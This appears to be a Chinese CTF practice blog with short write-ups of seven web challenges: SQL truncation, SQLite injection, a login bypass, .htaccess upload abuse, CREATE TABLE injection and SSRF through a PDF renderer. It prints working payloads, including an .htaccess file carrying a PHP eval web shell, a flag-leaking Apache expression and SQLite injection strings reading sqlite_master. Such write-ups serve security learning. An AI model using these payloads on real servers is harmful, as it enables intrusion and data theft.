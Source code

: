 > 又是早起刷题的一天

## 0x01 [FBCTF2019]Products Manager

- sql约束注入

  在插入数据的时候，如果字段设置了应该插入的字符串长度，那么在添加的时候，如果有超过该长度的，就会被截断

- mysql字符串比较

  `mysql` == `mysql空格空格空格空格空格空格空格空格空格空格                  

![image-20220105080355847](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220105080355847.png)

可以看到sql的每个字段都进行了长度限制，并且在最后的位置并没有进行代码上的处理而是直接插入。所以，我们就可以开始操作了。

插入

```
name: facebook                                    11
scert: 123456qwert
des: dviurbwgpbwf
```

然后查询

```
name: facebook
scert: 123456qwert
```

## 0x02[BSidesCF 2019]Sequel

sqlite注入，难度还行，like模糊匹配就可以了。

## 0x03 [b01lers2020]Space Noodles

https://tyaoo.github.io/2020/05/26/BUUCTF-2/

完全没懂这个题目是什么意思，好想类似于之前做的那种签到有趣题，就是猜，到底用哪种请求方法去访问接口，正确了就给你返回。

> 开头先列一下 HTTP 的请求方法，下面会用到

| 序号 | 方法    | 描述                                                         |
| :--- | :------ | :----------------------------------------------------------- |
| 1    | GET     | 请求指定的页面信息，并返回实体主体。                         |
| 2    | HEAD    | 类似于 GET 请求，只不过返回的响应中没有具体的内容，用于获取报头 |
| 3    | POST    | 向指定资源提交数据进行处理请求（例如提交表单或者上传文件）。数据被包含在请求体中。POST 请求可能会导致新的资源的建立和/或已有资源的修改。 |
| 4    | PUT     | 从客户端向服务器传送的数据取代指定的文档的内容。             |
| 5    | DELETE  | 请求服务器删除指定的页面。                                   |
| 6    | CONNECT | HTTP/1.1 协议中预留给能够将连接改为管道方式的代理服务器。    |
| 7    | OPTIONS | 允许客户端查看服务器的性能。                                 |
| 8    | TRACE   | 回显服务器收到的请求，主要用于测试或诊断。                   |
| 9    | PATCH   | 是对 PUT 方法的补充，用来对已知资源进行局部更新 。           |

## 0x04 [极客大挑战 2020]Roamphp2-Myblog

```
assets/img/upload/deb4b643fea6111d2d8cac5475225e87210ca3b4.jpg
```

文件包含拿到源码，登录的时候他是和session存储的密码进行比对的，那么我们如果把session删除并且把password置为空，就可以登录成功了。

## 0x05 [JMCTF 2021]UploadHub

津门CTF题目的复现。

```
<FilesMatch .htaccess>
SetHandler application/x-httpd-php 
Require all granted  
php_flag engine on  
</FilesMatch>

php_value auto_prepend_file .htaccess
#<?php eval($_POST['dem0']);?>
```

这里面的一个点就是 dir标签要晚于file标签执行，所以利用优先级的差距。这个就被接出来了。

但是还是要点名表扬一下NU1L大哥，yyds!

```php
<If "file('/flag')=~ '/flag{/'">
ErrorDocument 404 "wupco"
</If>
```

也就是如果匹配到了，那么就设置404页面中存在wupco，就可以判断是否成功了。`~`表示开启正则匹配。

https://httpd.apache.org/docs/2.4/expr.html

https://httpd.apache.org/docs/2.4/mod/core.html#file

https://httpd.apache.org/docs/2.4/sections.html

## 0x06 [Zer0pts2020]phpNantokaAdmin

> 查看源码

```
$sql = "CREATE TABLE {$table_name} (";
$sql .= "dummy1 TEXT, dummy2 TEXT";
$sql .= ', ';
$sql .= "`$column` $type";
$sql .= ');';
create table {$table_name} (dummy1 TEXT, dummy2 TEXT, $column $type);
```

```
$pdo->query('CREATE TABLE `' . FLAG_TABLE . '` (`' . FLAG_COLUMN . '` TEXT);');
$pdo->query('INSERT INTO `' . FLAG_TABLE . '` VALUES ("' . FLAG . '");');
$pdo->query($sql);
```

![image-20220105102321175](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220105102321175.png)

可以看到将列名在页面中显示出来了。所以我们可以考虑在这里进行注入。由于之前，已经做过相关的分析，[]可以用这个来进行注释。

`sqlite_master` yyds!

```
table_name=landv as select sql [&columns[0][name]=abc&columns[0][type]=] from sqlite_master;
```

```
table_name=landv as select flag_2a2d04c3 [&columns[0][name]=abc&columns[0][type]=] from flag_bf1811da;
```

这里两次拼接出来的语句是

```
create table landv as select sql [ (dummy1 TEXT, dummy2 TEXT, abc ] from sqlite_master;);
```

create table landv (a); 最后的语句就是这样，也就是在create中如何来

![image-20220105103011239](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220105103011239.png)

## 0x07 [FireshellCTF2020]URL TO PDF

首先是一个输入url的输入框，www.baidu.com

yyds.发现就是渲染当前页面的。然后存储为pdf，然后就啥也不知道了。看看它是使用了什么爬虫引擎。

```
easyPrint 51 (http://weasyprint.org/)
```

这好想不是一个nodejs的库，所以不难直接xss来getshell，考虑一个ssrf单纯的利用。`file:///flag`

然后找所有可以接入到网站中的标签，查看wp发现了l`ink`标签可以。